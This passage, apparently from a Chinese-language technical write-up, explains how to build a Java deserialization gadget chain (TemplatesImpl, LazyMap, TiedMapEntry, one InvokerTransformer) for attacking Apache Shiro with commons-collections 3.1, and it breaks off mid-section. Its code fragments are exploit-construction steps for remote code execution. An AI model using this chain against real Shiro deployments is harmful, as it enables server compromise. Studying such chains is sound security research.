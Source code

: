 其中setFieldValue函数就是获取相应属性，将其设置为可访问，然后修改属性的值

```java
public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
    Field field = obj.getClass().getDeclaredField(fieldName);
    field.setAccessible(true);
    field.set(obj, value);
}
```

### 构造newTransformer方法调用

以前的Transformer数组无法使用了

```Java
Transformer[] transformers = new Transformer[]{
    new ConstantTransformer(obj),
    new InvokerTransformer("newTransformer", null, null)
};
```

目标是只使用一个InvokerTransformer

关注到LazyMap的实现，发现它在调用transform接口的同时，会传入一个key，这个key正好可以代替ConstantTransformer

```java
 public Object get(Object key) {
     if (!super.map.containsKey(key)) {
         Object value = this.factory.transform(key);
         super.map.put(key, value);
         return value;
     } else {
         return super.map.get(key);
     }
 }
```

因此在只使用一个InvokerTransformer的情况下，相比于CommonsCollections6主要的改动

- 将TiedMapEntry的第二个参数key，修改为上面生成的TemplatesImpl对象
- 通过outerMap.clear()达到和outerMap.remove("keykey")一样的效果

```java
Map innerMap = new HashMap();
Map outerMap = LazyMap.decorate(innerMap, transformer);
// key修改为TemplatesImpl对象
TiedMapEntry tme = new TiedMapEntry(outerMap, obj);
Map expMap = new HashMap();
expMap.put(tme, "valuevalue");
outerMap.clear();
```

### commons-collections 3.1版本下的Shiro攻击

输出的内容可以放在Cookie中，发送给Shiro

主要注意的点
